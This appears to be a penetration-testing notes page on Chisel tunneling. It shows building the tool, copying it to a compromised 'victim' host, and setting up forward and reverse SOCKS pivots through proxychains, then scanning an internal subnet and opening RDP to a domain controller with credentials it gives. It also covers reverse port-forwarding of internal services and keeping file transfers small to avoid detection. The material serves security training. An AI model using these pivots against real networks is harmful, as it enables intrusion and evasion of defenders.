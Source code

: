 ```yaml
---
description: >-
  Chisel is a TCP/UDP-based tunneling tool written in Go that uses HTTP to
  transport data that is secured using SSH. Chisel can create a client-server
  connection in a firewall restricted environment.
---
```


# Chisel

<mark style="color:red;">**IMPORTANT:**</mark>** We need to be mindful of the size of files we transfer onto targets, not just for performance reasons but also considering detection. Some useful links to proceed:**

{% embed url="https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html" %}

## **Installing Chisel**

### Clone Repository

```shell-session
attacker@kali$ git clone https://github.com/jpillora/chisel.git
```

### B**uilding the Chisel Binary**

```shell-session
attacker@kali$ cd chisel
go build
```

## Transfer Chisel Binary to Victim

**Transferring Chisel Binary with SCP, A Web Server, or other methods of choice.**

```shell-session
attacker@kali$ scp chisel victim@10.129.202.64:~/home/victim
```

## **Running Chisel Server - Jump Host Server**

**We start a chisel server for a client to connect to.**

```shell-session
victim@ubuntu$ ./chisel server -v -p 1234 --socks5
```

<mark style="color:red;">**NOTE:**</mark> This can be on jump host, kali host, or whichever host we need it for.&#x20;

Chisel will listen for incoming connections on port 1234 using SOCKS5 (--socks5) and _**forward it to all the networks that are accessible on the pivot host.**_

## Running Chisel Client

<mark style="color:red;">**NOTE:**</mark> we can also run the chisel server on the Kali host.

```shell-session
attacker@kali$ ./chisel client -v 10.129.202.64:1234 socks
2022/05/05 14:21:18 client: Connecting to ws://10.129.202.64:1234
2022/05/05 14:21:18 client: tun: proxy#127.0.0.1:1080=>socks: Listening
2022/05/05 14:21:18 client: tun: Bound proxies
2022/05/05 14:21:19 client: Handshaking...
2022/05/05 14:21:19 client: Sending config
2022/05/05 14:21:19 client: Connected (Latency 120.170822ms)
2022/05/05 14:21:19 client: tun: SSH connected
```

In the above output, the Chisel client creates a TCP/UDP tunnel via HTTP using SSH between the Chisel server and the client and starts a listener on local port 1080. _**Now we can modify proxychains.conf and add 1080 port so we can use it to pivot between 1080 and the tunnel.**_\


```shell-session
$ tail -f /etc/proxychains.conf 
...
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

**Pivoting / Attacking the DC**

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ proxychains nmap 172.16.5.1-200 -sn -v
</strong></code></pre>

```shell-session
attacker@kali$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Chisel Reverse Pivot - Kali Server

In the previous example, we transfered a chisel binary to the compromised victim machine and started a listener on port 1234. Commonly, there will be scenarios where firewalls restrict inbound connections to our target. In such cases, we can use Chisel with the reverse tunnel option.

With the Chisel --reverse (-R) enabled, The server (attack host) will listen and accept connections and then be proxied through the client.

### S**tarting the Chisel Server on our Attack Host**

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ sudo ./chisel server --reverse -v -p 1234 --socks5
</strong></code></pre>

Then we connect from the Ubuntu (pivot host) to our attack host, using the option `R:socks`

### C**onnecting the Chisel Client to our Attack Host**

```shell-session
victim@ubuntu$ ./chisel client -v <kali-ip>:1234 R:socks
```

_<mark style="color:red;">**NOTE:**</mark>** **<mark style="color:yellow;">**Chisel opens a port**</mark>** **<mark style="color:red;">**1080**</mark>** **<mark style="color:yellow;">**that we will use.**</mark>_

_**Now we can modify proxychains.conf and add 1080 port so we can use it to pivot between 1080 and the tunnel.**_

```shell-session
$ tail -f /etc/proxychains.conf 
...
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

**Pivoting / Attacking the DC**

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ proxychains nmap 172.16.5.1-200 -sn -v
</strong></code></pre>

```shell-session
attacker@kali$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```



### Port Forwarding localhost Web Service (phpmyadmin)

If the server we popped a shell on is running phpmyadmin its work portforwarding back to our host.

```powershell
.\chisel.exe client 192.168.45.170:8081 R:8090:localhost:80
```

Navigating to localhost:8090, we can now access the admin portal

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

### **Port Forwarding an Internal Web Service.**

Sometimes we may want to port foward a direct port back to our reverse port forward. We can use the syntax: **R:localport:remotehost:remoteport.**

<mark style="color:red;">**NOTE:**</mark> <mark style="color:yellow;">**This is useful if we want to access an internal**</mark>** **<mark style="color:red;">**web service**</mark>** **<mark style="color:yellow;">**on our local machine through 127.0.0.1**</mark>

```powershell
C:\Users\marcus> chisel.exe client 192.168.119.5:8080 R:80:172.16.6.241:80

2022/10/11 07:22:46 client: Connecting to ws://192.168.119.5:8080
2022/10/11 07:22:46 client: Connected (Latency 11.0449ms)
```

#### We can navigate to 127.0.0.1 and see the portforwarded web service

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We may need to upate our /etc/hosts to fit the domain name.


